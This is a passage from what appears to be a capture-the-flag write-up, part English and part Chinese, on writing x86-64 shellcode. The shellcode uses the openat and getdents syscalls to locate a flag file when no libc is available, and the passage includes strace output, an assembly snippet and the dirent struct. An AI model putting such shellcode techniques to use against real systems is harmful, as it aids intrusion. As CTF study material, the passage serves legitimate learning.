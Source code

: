 so we will have enough space for our shellcode.
But we can't locate the flag, there is no libc for us , what we have is shellcode.

## Ls
I straced `ls`:
`strace -o ls ls`

```s
$ cat ls
...
openat(AT_FDCWD, ".", O_RDONLY|O_NONBLOCK|O_CLOEXEC|O_DIRECTORY) = 3
fstat(3, {st_mode=S_IFDIR|0755, st_size=4096, ...}) = 0
getdents(3, /* 24 entries */, 32768)    = 752
getdents(3, /* 0 entries */, 32768)     = 0
...
+++ exited with 0 +++
``` 
...

```c
int getdents(int fildes, struct dirent *buf, size_t nbyte);
int __openat (int fd, const char *file, int oflag, ...);
```
...
发现我的英文真烂 真他妈难表达。。。换用中文缓和一下心情。
所以我开始尝试使用257号和78号系统调用来实现定位`flag`

## openat
`openat` 用于打开目录
按照使用说明设置好寄存器发现成功返回了文件指针
```asm
mov ax,0x101
mov rdi,-101
mov rsi,0x67616c662f2e
push rsi
mov rsi,rsp
mov rdx,0
mov r10,0
syscall
```
## getdents

`getdents`用于读取目录内容使用起来比较容易设置好参数就可以不过比较惨的是返回值需要自己去解析.

看了半天源码解析部分看不太明白，结构体部分还是挺有用的
```c
struct dirent
  {
#ifndef __USE_FILE_OFFSET64
    __ino_t d_ino;
    __off_t d_off;
#else
    __ino64_t d_ino;
    __off64_t d_off;
#endif
    unsigned short int d_reclen;
    unsigned char d_type;
    char d_name[256];                /* We must not include limits.h! */
  };
#ifdef __USE_LARGEFILE64
struct dirent64
  {
    __ino64_t d_ino;
    __off64_t d_off;
```

[2]: https://cloud.tencent.com/developer/article/1143454